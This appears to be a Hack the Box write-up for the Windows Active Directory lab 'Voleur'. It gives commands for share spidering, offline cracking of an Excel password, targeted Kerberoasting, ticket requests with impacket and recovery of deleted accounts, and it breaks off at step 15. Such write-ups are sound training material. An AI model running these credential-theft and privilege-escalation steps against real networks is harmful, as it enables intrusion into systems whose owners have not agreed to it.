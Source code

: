 # Voleur

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Learn to abuse WriteOwner privilege using Impacket's owneredit.py script
- Give an account FullControl using Impacket's dacledit.py tool
- Enumerate and restore deleted user accounts on PowerShell
- Exploit ESC15 vulnerable template
- Add user to Domain Admin group with an LDAP shell


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan along with bloodhound

![image](https://github.com/user-attachments/assets/9374b63e-36de-4aa2-96d2-ef3957b8f57b)

2. Bloodhound doesn't give us a path from credentials given ryan.naylor. After enumerating using netexec smb, found an interesting IT share so download files with the spider_plus module

`nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True`

![image](https://github.com/user-attachments/assets/ac3f931f-437f-47de-a391-d6399fff89d4)

3. Trying to open the .xlsx file shows that it's password protected, so use the office2john script and crack password offline.

![image](https://github.com/user-attachments/assets/dd5ebfc5-ce1e-40e0-827c-8f31349acbd9)

4. Get rid of the filename in the beginning and crack using hashcat. We get the password!

`hashcat -m 9600 excel_hash.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/d164a5a2-e75c-4848-9d22-dabd4e0ef5fc)

5. Open the password protected excel file and we get a list of user credentials

![image](https://github.com/user-attachments/assets/c2658702-3661-4c3f-bf1a-0eb0b3792eb3)

6. Using svc_ldap's credentials, can do a targetedKerberoast attack on svc_winrm which has CanPSRemote rights to the machine.

![image](https://github.com/user-attachments/assets/fcef36ad-42ad-4e1b-ba51-1c44018acac6)

7. First, get TGT for svc_ldap using impacket's getTGT.py script and set KRB5CCNAME environment variable to use the ccache file.

`getTGT.py -k -dc-ip dc.voleur.htb voleur.htb/svc_ldap:'[PASSWORD]'`

![image](https://github.com/user-attachments/assets/7341c702-d2a8-43d7-91b4-736c41cfc8e0)

8. Now run targetedKerberoast.py with kerberos authentication

`targetedKerberoast.py -k --dc-ip 10.129.61.59 --dc-host dc.voleur.htb -v -d voleur.htb`

![image](https://github.com/user-attachments/assets/b86fc911-0c80-4d28-9d3e-08694c182c9a)

9. Crack hash offline using hashcat

`hashcat -m 13100 targetedKerberoast.txt /usr/share/wordlists/rockyou.txt`

10. Now get svc_winrm's TGT using the same process as before

`getTGT.py -k -dc-ip dc.voleur.htb voleur.htb/svc_winrm:'[PASSWORD]'`

11. Set the KRB5CCNAME env variable to the svc_winrm ccache file and evil-winrm into the machine. Compromised user flag!

![image](https://github.com/user-attachments/assets/f0804929-bd52-43f2-b9b3-a7128bff4132)

12. Looking at BloodHound, svc_ldap user is part of the RESTORE_USERS group. Use svc_ldap to get TGT and enumerate deleted objects via bloodyAD. Use the special -c flag with LDAP OID control 1.2.840.113556.1.4.2064 to show deleted, tombstoned, and recycled objects.  

`bloodyAD -u svc_ldap -d voleur.htb -p '[PASSWORD]' --host dc.voleur.htb --dc-ip 10.129.16.120 -k get search -c 1.2.840.113556.1.4.2064 --resolve-sd --base 'CN=Deleted Objects,DC=voleur,DC=htb' --filter "(objectClass=*)" --attr sAMAccountName`

<img width="858" height="277" alt="image" src="https://github.com/user-attachments/assets/7b3ee745-6e3a-4a59-9560-97e12ab52aab" />

13. Restore todd.wolfe user using bloodyAD

``

<img width="852" height="76" alt="image" src="https://github.com/user-attachments/assets/dfc5cc81-0a1b-4568-8766-2f2cfe19a164" />

14. Get TGT for todd.wolfe to authenticate as user. Todd wolfe's password is in the Access excel file

<img width="659" height="71" alt="image" src="https://github.com/user-attachments/assets/2c3cb778-85c6-4675-ad58-024470cc24cf" />

15. 
